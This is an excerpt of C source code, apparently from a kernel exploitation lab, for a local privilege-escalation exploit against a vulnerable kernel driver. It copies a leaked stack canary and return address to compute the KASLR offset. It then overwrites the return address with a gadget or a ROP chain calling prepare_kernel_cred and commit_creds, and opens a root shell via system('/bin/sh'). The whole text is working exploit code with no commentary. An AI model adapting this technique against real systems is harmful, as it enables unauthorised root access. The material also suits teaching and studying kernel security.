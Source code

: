 ```c
    memcpy(canaryStr, buf+24, 8);
    
    memset(oldFPStr, '\0', sizeof(oldFPStr));
    memcpy(oldFPStr, buf+32, 8);

    memset(oldRAStr, '\0', sizeof(oldRAStr));
    memcpy(oldRAStr, buf+40, 8);

    size_t canary = *(size_t *) canaryStr;
    size_t oldFP = *(size_t *) oldFPStr;
    size_t oldRA = *(size_t *) oldRAStr;

    printf("canary = 0x%lx\n", canary);
    printf("oldFP = 0x%lx\n", oldFP);
    printf("oldRA = 0x%lx\n", oldRA);

    size_t offset = oldRA - RAWithoutKASLR;
    printf("offset = 0x%lx\n", offset);
    
    return offset;
}

void hackUsingFirstLevelGadget(int fd, size_t offset) {

    char buf[49] = "0123456789ABCDEF\x30";

    size_t newRA = RAToFirstLevelGadget + offset;

    memcpy(buf + 24, canaryStr, 8);
    memcpy(buf + 32, oldFPStr, 8);
    memcpy(buf + 40, (char*)&newRA, 8);
    
    write(fd, buf, 48);

    system("/bin/sh"); 

    return;
}

void hackUsingROP(int fd, size_t offset) {
    char buf[161];
    memset(buf, '\0', sizeof(buf));

    memcpy(buf + 24, canaryStr, 8);

    size_t prepareKernelCredRA = RAOfPrepareKernelCred + offset;
    memcpy(buf + 40, (char*)&prepareKernelCredRA, 8);

    size_t commitCredsRA = RAOfCommitCreds + offset;
    memcpy(buf + 72, (char*)&commitCredsRA, 8);

    size_t secondLevelGadgetRA = RAOfSecondLevelGadget + offset;
    memcpy(buf + 104, (char*)&secondLevelGadgetRA, 8);

    size_t ZJUBofWriteRA = RAOfZJUBofWrite + offset;
    memcpy(buf + 152, (char*)&ZJUBofWriteRA, 8);

    write(fd, buf, 160);
    
    system("/bin/sh"); 
    
    return;
}
```